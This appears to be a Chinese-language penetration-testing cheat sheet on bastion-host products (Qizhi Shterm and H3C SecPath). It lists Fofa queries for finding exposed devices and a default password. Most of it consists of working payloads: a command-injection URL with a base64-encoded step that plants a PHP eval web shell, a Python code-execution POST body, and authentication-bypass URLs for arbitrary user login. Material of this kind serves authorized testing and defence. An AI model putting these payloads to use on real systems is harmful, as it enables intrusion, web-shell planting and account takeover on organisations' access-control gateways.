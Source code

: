 
## 身份与访问控制

### 堡垒机

#### 齐治堡垒机

> Fofa: app="齐治科技-堡垒机"

**默认口令**
- shterm/shterm

**齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
- [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)
    ```
    http://10.20.10.11/listener/cluster_manage.php
    https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
    /var/www/shterm/resources/qrcode/lbj77.php  密码10086
    ```

**CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
- [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)

**CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
- [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

**远程代码执行**
- POC | Payload | exp
    ```
    POST /shterm/listener/tui_update.php

    a=["t';import os;os.popen('whoami')#"]
    ```

**任意用户登录漏洞**
- POC | Payload | exp
    ```
    /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
    ```

#### H3C SecParh

> Fofa: app="H3C-SecPath-运维审计系统" && body="2018"

**get_detail_view.php 任意用户登录漏洞**
- POC | Payload | exp
    ```
    /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
    ```
